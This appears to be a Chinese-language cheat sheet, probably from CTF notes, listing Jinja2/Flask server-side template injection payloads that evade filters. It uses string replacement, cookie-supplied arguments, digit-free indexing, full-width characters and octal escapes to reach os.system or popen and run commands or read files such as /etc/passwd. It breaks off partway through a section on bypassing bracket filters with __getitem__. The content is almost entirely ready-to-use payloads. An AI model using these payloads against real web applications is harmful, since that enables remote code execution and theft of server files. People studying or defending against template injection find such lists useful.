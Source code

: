 ### replace函数

```python
{{url_for.__globals__.os["sysatem".replace("a","")]('calc')}}
```

### cookie绕过

```python
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd
```

### 过滤数字

```python
{{""["_" "_cla" "ss_" "_"]["_" "_ba" "se_" "_"]["_" "_subcla" "sses_" "_"]()
['aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab'.index('b')]
["_" "_in" "it_" "_"]["_" "_glo" "bals_" "_"]
['po' 'pen']('cat /flag').read()}}
```

### 全角绕过

```python
{{[].__ｃｌａｓｓ__．__ｂａｓｅ__．__ｓｕｂｃｌａｓｓｅｓ__()[99]['ｇｅｔ__data'](0,"/ｄａｔａ")}}
```

### 八进制绕过

```python
data={{()["__\\143\\154\\141\\163\\163__"]["__\\155\\162\\157__"][1]["__\\163\\165\\142\\143\\154\\141\\163\\163\\145\\163__"]()[247]["__\\151\\156\\151\\164__"]["__\\147\\154\\157\\142\\141\\154\\163__"]["\\157\\163"]["\\160\\157\\160\\145\\156"]("\\143\\141\\164\\40\\57\\146\\154\\141\\147")["\\162\\145\\141\\144"]()}}
```

## 绕过其他字符

### 过滤了中括号[ ]

#### 利用 **getitem**() 绕过

可以使用 **getitem**() 方法输出序列属性中的某个索引处的元素，如

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')
```

如下示例：
